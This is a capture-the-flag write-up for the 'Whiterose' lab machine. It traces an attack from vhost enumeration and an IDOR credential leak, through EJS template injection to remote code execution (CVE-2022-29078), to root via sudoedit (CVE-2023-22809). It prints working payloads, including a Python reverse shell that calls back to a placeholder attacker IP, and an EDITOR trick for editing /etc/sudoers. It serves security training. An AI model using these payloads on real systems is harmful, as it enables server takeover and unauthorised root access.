










# Whiterose — Exploitation Report

## Educational Objectives
This machine allows the application of several fundamental penetration testing concepts:
- Network service enumeration
- Broken access controls (IDOR)
- Server-Side Template Injection (EJS)
- Arbitrary code execution (Node.js / Express)
- Linux privilege escalation via `sudoedit` (CVE)

**⚠️ This report is provided for educational purposes only.**  
Any exploitation of vulnerabilities must be performed in a legal and authorized context.

## Executive Summary

This report describes the complete exploitation of an intrusion scenario, from an exposed web surface to full system compromise.

### Exploitation Chain:

IDOR → administrator account compromise → SSTI (EJS) → RCE → Linux privilege escalation

### Target Audience:

Junior pentester / Blue team / Backend developer

## Tools Used
- Nmap
- Gobuster / virtual host fuzzing
- Burp Suite
- Netcat
- Python
- sudo

## 1. Reconnaissance

A reconnaissance phase is conducted to identify the attack surface exposed by the target machine.

### Objectives
- Identify open ports
- Determine accessible services
- Gather information about the operating system and technologies in use

### Network Scan

``` bash
nmap -A -p- -T4 TARGET_IP
```

### Option Explanation
- `-A`: aggressive mode (OS detection, traceroute, advanced scripts)
- `-p-`: scans all ports (1–65535)
- `-T4`: speeds up the scan
- `TARGET_IP`: target machine IP address



### Exposed Services Analysis
| Port | Service | Description                       |
| ---- | ------- | --------------------------------- |
| 22   | SSH     | Remote access (post-exploitation) |
| 80   | HTTP    | nginx 1.14.0 web server           |

### Web Access

Accessing port 80 redirects to the domain name `cyprusbank.thm`.

➡️ Add the following entry to `/etc/hosts`:

```text
<TARGET_IP> cyprusbank.thm
```

The site displays a maintenance page.

A quick client-side analysis reveals:
- No JavaScript code
- No HTML comments
- No `robots.txt` file
- Very few loaded resources
- No interesting results from `gobuster dir` enumeration

➡️ This setup suggests the presence of non-exposed subdomains.

## 2. Enumeration

### Virtual Host Discovery

Virtual host enumeration (Host header fuzzing) is performed using `gobuster vhost` to identify potential subdomains hosted on the web server but not referenced by the main site.

``` bash
gobuster vhost -u cyprusbank.thm \
  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --append-domain \
  --no-error
```

### Option Explanation
- `vhost`: enables virtual host enumeration via the HTTP Host header
- `-u`: target URL
- `-w`: wordlist used for subdomain fuzzing
- `--append-domain`: automatically appends the target domain to each wordlist entry
- `--no-error`: suppresses error responses to improve readability

This enumeration reveals the subdomain `admin.cyprusbank.thm`, significantly expanding the exposed attack surface.



➡️ Add the new entry to `/etc/hosts` and navigate to the subdomain:

```text
<TARGET_IP> cyprusbank.thm admin.cyprusbank.thm
```

## 3. Access to the Administration Interface

The subdomain `admin.cyprusbank.thm` exposes a login page.

Valid user credentials are available and allow authentication to the admin interface:

```text
Username: Olivia Cortez  
Password: olivi8
```

Authentication succeeds; however, some access remains restricted:
- Some features, notably the `/settings` endpoint, are inaccessible
- Privileges appear limited to a standard user role

## 4. IDOR — Access to Sensitive Data

Accessing the following endpoint: `/messages/?c=5` reveals the presence of a `c` parameter in the URL, used server-side to select a set of messages.

### Access Control Test

By modifying the parameter value: 

```text
/messages/?c=20
``` 

the application returns additional messages without verifying whether the authenticated user is authorized to access them.



### Result:

This manipulation grants access to additional messages containing sensitive information belonging to other users, including login credentials.

```text
Username: Gayle Bev  
Password: REDACTED
```

**Security Impact:**
This Insecure Direct Object Reference (IDOR) vulnerability allows an authenticated user to access resources they do not own, leading to sensitive data disclosure, potential compromise of privileged accounts and expanded attack surface.

## 5. Administrator Account & Expanded Attack Surface

Credentials disclosed via the IDOR vulnerability provide access to an administrator account, significantly expanding the server-side attack surface.



This access allows:
- User password modification
- Access to the `/settings `endpoint

User-supplied data entered in forms is reflected in the server-side HTML response, strongly indicating dynamic rendering through a template engine.

➡️ Hypothesis: presence of a Server-Side Template Injection (SSTI) vulnerability.

## 6. Server-Side Template Injection (SSTI)

Using Burp Suite, a password change request is intercepted and modified.

### Server Error Analysis

By removing the `password` parameter, the server returns an internal error accompanied by a full stack trace.



```text
HTTP/1.1 500 Internal Server Error  
Server: nginx/1.14.0 (Ubuntu)  
Date: Sat, 03 Jan 2026 14:06:54 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 1632  
Connection: keep-alive  
X-Powered-By: Express  
Content-Security-Policy: default-src 'none'  
X-Content-Type-Options: nosniff  

ReferenceError: /home/web/app/views/settings.ejs:14
  12| <div class="alert alert-info mb-3"><%= message %></div>
  13| <% } %>
>>14| <% if (password != -1) { %>
  15| <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
  16| <% } %>
  17| <% if (typeof error != 'undefined') { %>

password is not defined
  at eval ("/home/web/app/views/settings.ejs":27:8)
  at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
  at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
  at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
  at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
  at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
  at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
  at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
  at /home/web/app/routes/settings.js:27:7
  at runMicrotasks (<anonymous>)
```

Disclosed Information
- Backend: Node.js / Express
- Template engine: EJS
- Internal server paths
- Application logic

This disclosure confirms poor error handling and highlights a potential SSTI vulnerability, as user-controlled parameters `password` is directly injected into the EJS template.

➡️ These findings justify targeted SSTI testing, potentially leading to arbitrary code execution.

## 7. SSTI Validation → RCE (CVE-2022-29078)

Exploitation is made possible by a misconfiguration in Express exposing `view options`, combined with the use of the EJS template engine.

This exploitation vector is documented and commonly referenced as CVE-2022-29078:
- [EJS issue #720](https://github.com/mde/ejs/issues/720)
- [Article — EJS SSTI to RCE](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

The following payload is injected into the request parameters (POST).

### Validation Payload
```text
settings[view options][outputFunctionName]=x;throw new Error(process.mainModule.require('child_process').execSync('id').toString());s
```

Since command output is not reflected in the HTTP response (blind RCE), validation is performed through a controlled error.
The payload deliberately throws an exception containing the output of the `id` command, which is returned in the Express error page.



➡️ Arbitrary code execution confirmed.

**Security Impact:**
This vulnerability allows an authenticated attacker to execute arbitrary commands on the server, resulting in full compromise of the application and underlying system.

## 8. Reverse Shell Acquisition

Arbitrary command execution via the EJS SSTI is leveraged to establish a reverse shell using Python3, without dropping files on the target system.

### Payload Used

```text
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync("python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect((\"IP_ATTAQUANT\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"sh\")'");s
```

This technique assumes the presence of Python3 on the target system, which is common on many Linux distributions.

The payload establishes a TCP connection back to the attacker, redirects standard I/O streams to the socket, and spawns an interactive shell using `pty`.

➡️ An interactive shell is obtained.



**Security impact:**  
The execution of arbitrary commands allows an attacker to gain interactive access to the system, paving the way for data theft, backdoor installation, and privilege escalation.

## 9. User Access & User Flag

Current user: `web`

The user flag is located at: `/home/web/user.txt`

## 10. Privilege Escalation — sudoedit (CVE-2023-22809)

### sudo Analysis
Running `sudo -l` reveals allowed sudo commands for the `web` user.



Result:
- The `web` user can edit an nginx configuration file using `sudoedit`
- No password is required

Sudo version:
`sudo 1.9.12p1`

➡️ This version is vulnerable to CVE-2023-22809.

## 11. sudoedit Exploitation (sudo -e)

This vulnerability allows a user with restricted `sudoedit` access to arbitrarily modify system files with root privileges.

### Principle

CVE-2023-22809 affects `sudoedit` and allows argument injection via environment variables such as `EDITOR`, `VISUAL`, or `SUDO_EDITOR`.

By injecting the `--` argument, it is possible to bypass `sudoedit` restrictions and open files other than those explicitly allowed in the sudo configuration.

Since the web user is permitted to run sudoedit as `root`, this flaw enables modification of critical system files, including `/etc/sudoers`, leading to full privilege escalation.

More detailed information on this subject can be found in this security advisory published by Synacktiv - [Synacktiv — CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

### Exploitation

``` bash
export EDITOR="nano -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

The `/etc/sudoers` file becomes editable.

By adding `web ALL=(ALL) NOPASSWD: ALL` the user gains full sudo privileges.



**Security Impact:**
The combination of unrestricted `sudoedit` usage and a vulnerable sudo version results in full root compromise.

## 12. Root Access

The new privileges allow to obtain a root shell:  `sudo su -`



The root flag is located at: `/root/root.txt`

## Conclusion & Demonstrated Skills

### Exploited Vulnerabilities
- IDOR
- SSTI (EJS / Express) → RCE (CVE-2022-29078)
- Misconfigured sudo
- CVE-2023-22809 (`sudoedit`)

### Demonstrated Skills
- Penetration testing methodology
- Web exploitation
- Stack trace analysis
- Node.js exploitation
- Linux privilege escalation

### Security Recommendations
- Implement proper server-side access controls
- Restrict exposure of Express `view options`
- Disable stack traces in production environments
- Update sudo and restrict the use of sudoedit